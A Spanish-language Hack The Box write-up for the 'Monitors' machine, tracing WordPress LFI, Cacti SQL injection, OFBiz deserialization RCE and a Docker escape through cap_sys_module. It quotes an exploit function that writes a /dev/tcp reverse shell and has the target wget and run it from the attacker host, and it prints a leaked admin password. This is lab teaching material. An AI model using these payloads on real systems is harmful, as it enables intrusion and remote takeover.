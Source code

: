```yaml
---
layout: single
title: Monitors - Hack The Box
excerpt: "Hoy nos enfrentamos contra la máquina monitors que tiene una dificultad difícil. La máquina es bastante pesada, contempla una vulnerabilidad de un plugin de wordpress que nos permite leer archivos de la máquina. Luego hacemos una inyección sql para conseguir conectarnos a la máquina, después accedemos a un sandbox, escapamos de él y conseguimos root en la máquina oficial."
date: 2022-09-16
classes: wide
header:
  teaser: /assets/images/htb-writeup-monitors/monitors_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - cxdxnt
tags:  
  - rce
  - sandbox escape 
  - lfi
  - cms exploit
---
```


![](/assets/images/htb-writeup-monitors/monitors_logo.png)

Monitors comienza con un WordPress que es vulnerable a un plugin local que incluye una vulnerabilidad que me permite leer archivos del sistema. Al hacerlo, descubrimos otro dominio que sirva una versión vulnerable de Cacti, que explotaremos mediante inyección SQL que conduce a la ejecución del código. A partir de ahí, identificamos un nuevo servicio en desarrollo que ejecute Apache ofbiz en un contenedor Docker y lo usamos para ingresar al contenedor. El contenedor se ejecuta con privilegios, de lo que abusaremos al instalar un módulo de kernel malicioso para obtener acceso como root en el host.

## Enumeración

```ruby
 nmap -sCV -p22,80 10.10.10.238 -oN targeted
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-16 11:08 -03
Nmap scan report for 10.10.10.238
Host is up (0.24s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ba:cc:cd:81:fc:91:55:f3:f6:a9:1f:4e:e8:be:e5:2e (RSA)
|   256 69:43:37:6a:18:09:f5:e7:7a:67:b8:18:11:ea:d7:65 (ECDSA)
|_  256 5d:5e:3f:67:ef:7d:76:23:15:11:4b:53:f8:41:3a:94 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.94 seconds
```
Empezamos enumerando el servicio 80 con whatweb y extraemos dominios.

![](/assets/images/htb-writeup-monitors/whatweb.png)

Vemos que en la ruta /wp-content/plugin tiene directory listing.Por lo cual buscamos si el plugin que vemos es vulnerable.

![](/assets/images/htb-writeup-monitors/plugin.png)
![](/assets/images/htb-writeup-monitors/searchsploit.png)

Comprobamos si es vulnerable a un lfi.

![](/assets/images/htb-writeup-monitors/etc-passwd.png)

Gracias al lfi sacamos una contraseña del archivo configuracion wp-config y extraemos un dominio de 000-default.conf.En el nuevo dominio vemos un panel login.
```bash
wpadmin:BestAdministrator@2020!
```
![](/assets/images/htb-writeup-monitors/login.png)

En el panel de login probamos, como user admin y como password BestAdministrator@2020!.Luego buscamos cacti y la version y vemos que hay un exploit.Lo ejecutamos y contenemos una rce.

![](/assets/images/htb-writeup-monitors/exploitt.png)

## Elevacion de privilegios

En los procesos del sistema vemos lo siguiente.


```bash
/usr/bin/docker-proxy -proto tcp -host-ip 127.0.0.1 -host-port 8443 -container-ip 172.17.0.2 -container-port 8443
```
Hacemos un port forwarding para extraernos el puerto 8443 de la máquina 172.17.0.2 a mí máquina local. Identificamos que es un servidor https, y le lanzamos un fuzzing.

```bash

>ffuf -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u https://localhost:8443/FUZZ  -c

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.4.1-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://localhost:8443/FUZZ
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

images                  [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 242ms]
content                 [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 255ms]
common                  [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 249ms]
catalog                 [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 259ms]
marketing               [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 257ms]
ecommerce               [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 264ms]
ap                      [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 255ms]
ar                      [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 245ms]
ebay                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 247ms]
manufacturing           [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 246ms]
passport                [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 248ms]
example                 [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 260ms]
bi                      
```

Fuzeamos y en la ruta https://localhost:8443/manufacturing/control/main, tenemos un panel de login.

![](/assets/images/htb-writeup-monitors/login-docker.png)

En la derecha parte inferior vemos el servicio y version.

![](/assets/images/htb-writeup-monitors/version.png)


Encontramos un exploit, pero no es funcional, así que toca ejecutar todo manualmente.La parte del exploit que nos interesa es esta.

```bash
function webRequest(){
    echo -e "\n[*] Creating a shell file with bash\n"
    echo -e "#!/bin/bash\n/bin/bash -i >& /dev/tcp/$ip/$ncport 0>&1" > shell.sh
    echo -e "[*] Downloading YsoSerial JAR File\n"
    wget -q https://jitpack.io/com/github/frohoff/ysoserial/master-d367e379d9-1/ysoserial-master-d367e379d9-1.jar
    echo -e "[*] Generating a JAR payload\n"
    payload=$(java -jar ysoserial-master-d367e379d9-1.jar CommonsBeanutils1 "wget $ip/shell.sh -O /tmp/shell.sh" | base64 | tr -d "\n")
    echo -e "[*] Sending malicious shell to server...\n" && sleep 0.5
    curl -s $url:$port/webtools/control/xmlrpc -X POST -d "<?xml version='1.0'?><methodCall><methodName>ProjectDiscovery</methodName><params><param><value><struct><member><name>test</name><value><serializable xmlns='http://ws.apache.org/xmlrpc/namespaces/extensions'>$payload</serializable></value></member></struct></value></param></params></methodCall>" -k  -H 'Content-Type:application/xml' &>/dev/null
    echo -e "[*] Generating a second JAR payload"
    payload2=$(java -jar ysoserial-master-d367e379d9-1.jar CommonsBeanutils1 "bash /tmp/shell.sh" | base64 | tr -d "\n")
    echo -e "\n[*] Executing the payload in the server...\n" && sleep 0.5
    curl -s $url:$port/webtools/control/xmlrpc -X POST -d "<?xml version='1.0'?><methodCall><methodName>ProjectDiscovery</methodName><params><param><value><struct><member><name>test</name><value><serializable xmlns='http://ws.apache.org/xmlrpc/namespaces/extensions'>$payload2</serializable></value></member></struct></value></param></params></methodCall>" -k  -H 'Content-Type:application/xml' &>/dev/null
    echo -e "\n[*]Deleting Files..."
    rm ysoserial-master-d367e379d9-1.jar && rm shell.sh
}
```

![](/assets/images/htb-writeup-monitors/rce-docker.png)

Ahora lo hacemos pero para ganarnos una shell.

![](/assets/images/htb-writeup-monitors/root-docker.png)

## Elevacion de privilegios

El docker tiene una capability vulnerable en lo cual nos permite escapar del docker.Hacemos los pasos que nos indica el blog de hacktricks.Vemos que es vulnerable y luego ejecutamos una webshell.
```bash
#https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#cap_sys_module
root@857ded81d423:/usr/src/apache-ofbiz-17.12.01# capsh --print
Current: = cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_module,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap+eip
Bounding set =cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_module,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap
Securebits: 00/0x0/1'b0
 secure-noroot: no (unlocked)
 secure-no-suid-fixup: no (unlocked)
 secure-keep-caps: no (unlocked)
uid=0(root)
gid=0(root)
groups=
```
![](/assets/images/htb-writeup-monitors/root-oficial.png)
